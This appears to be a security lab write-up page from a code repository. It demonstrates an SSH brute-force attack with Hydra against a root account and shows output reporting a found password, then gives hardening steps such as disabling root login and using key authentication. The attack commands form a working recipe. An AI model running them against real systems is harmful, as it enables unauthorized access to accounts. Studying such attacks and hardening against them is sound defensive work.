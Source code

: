 ### ✅ **Exploitation: Brute-Force Attack on SSH**  

```bash
# Install Hydra (Brute-force tool)
┌──(kali㉿kali)-[~]
└─$ sudo apt install -y hydra

# Run Hydra brute-force attack on SSH
┌──(kali㉿kali)-[~]
└─$ hydra -l root -P passwords.txt ssh://178.0.0.9 -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-17 21:50:56
[DATA] max 4 tasks per 1 server, overall 4 tasks, 5 login tries (l:1/p:5), ~2 tries per task
[DATA] attacking ssh://178.0.09:22/
[22][ssh] host: 178.0.0.9   login: root   password: *****
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-17 21:50:59
```

---

### ✅ **Mitigation: Hardening SSH Security**  

```bash
# Disable root login for SSH (SECURE)
┌──(kali㉿kali)-[~]
└─$ sudo sed -i 's/PermitRootLogin yes/PermitRootLogin no/' /etc/ssh/sshd_config

# Enable key-based authentication
┌──(kali㉿kali)-[~]
└─$ mkdir -p ~/.ssh && chmod 700 ~/.ssh

# Generate SSH key pair
┌──(kali㉿kali)-[~]
└─$ ssh-keygen -t rsa -b 4096

Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase for "/home/kali/.ssh/id_rsa" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:*********************************** kali@kali
The key's randomart image is:
+---[RSA 4096]----+
|  .=o+*+=B*= .   |
|  ..O=.+*B=.o    |
|   =.oo .E=  .   |
|    .  ..o. . .  |
|        S  . + . |
|            = ...|
|           o oo o|
|            . .+ |
|             ..  |
+----[SHA256]-----+


# Copy public key to authorized keys
┌──(kali㉿kali)-[~]
└─$ ssh-copy-id root@127.0.0.1
```